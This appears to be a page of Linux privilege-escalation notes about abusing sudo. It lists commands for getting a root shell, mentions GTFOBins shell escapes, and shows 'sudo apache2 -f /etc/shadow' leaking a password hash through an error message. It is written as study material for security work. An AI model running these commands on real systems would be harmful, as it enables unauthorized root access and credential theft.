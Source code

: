 ### Useful Commands
Run a program as sudo:
```bash
sudo <program>
```

Run a program as a specific user:
```bash
sudo -u <username> <program>
```

List programs a user is allowd (and disallowed) to run:
```bash
sudo -l
```

Switch user:
```bash
sudo su
```

If the **su** program is not allowed, there are many other ways to escalate privileges:
```bash
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

If we are able to run specific programs as **sudo**, it is sometimes possible to "escape" the program and spawn a shell. Since the program runs with root privileges, so does the spawned shell. A list of programs with their shell escape sequences can be found here: https://gtfobins.github.io/#

### Abusing Intended Functionality
If a program doesn't have an escape sequence, it may still be possible to use it to escalate privileges. If we can readfiles owned by root, we may be able to extract useful information. If we can write to files owned by root, we may be able to insert or modify information.

For instance, you can run apache2 as sudo. Apache2 does not have any escape sequences, however when parsing a given config file, it will error and print any line it doesn't understand.

```bash
sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```

### Environment Variables
Programs run through **sudo** can inherit the environment variables from the user's environment. 
In the **/etc/sudoers** config file, if the **env_reset** option is set, sudo will run programs in a new, minimal environment.
The **env_keep** option can be used to keep certain environment variables from the user's environment.
The configured options are displayed when running **sudo -l**.
